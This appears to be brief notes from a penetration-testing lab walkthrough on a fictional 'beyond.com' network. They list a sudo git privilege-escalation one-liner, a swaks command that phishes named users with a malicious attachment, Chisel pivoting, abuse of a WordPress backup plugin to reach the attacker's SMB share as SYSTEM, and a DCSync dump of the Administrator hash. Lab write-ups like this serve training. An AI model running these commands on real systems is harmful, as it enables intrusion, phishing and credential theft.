 #box

- Used Git to escalate privilege(**sudo -l**)
```bash
TF=$(mktemp -d)
ln -s /bin/sh "$TF/git-x"
sudo git "--exec-path=$TF" x
```

- Git Abuse by going to the web directory and using below
```bash
git log
```
- Checking the interesting Commit in the log
```bash
git show 612ff5783cc5dbd1e0e008523dba83374a84aaf1
```

- Phishing the users using WeBDa, and use SWAKS to send the email.
```bash
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```
- Discovered a pivot and started a Chisel on the pivot point and used Firefox+Foxyproxy to browse it.
-  Admin page was in http://internalsrv1.beyond.com/wordpress/wp-login
- Abused a backup plugin to authenticate to KALI as SYSTEM 
```
//192.168.119.5/test
```
- Used DCSync to get the Administrator hash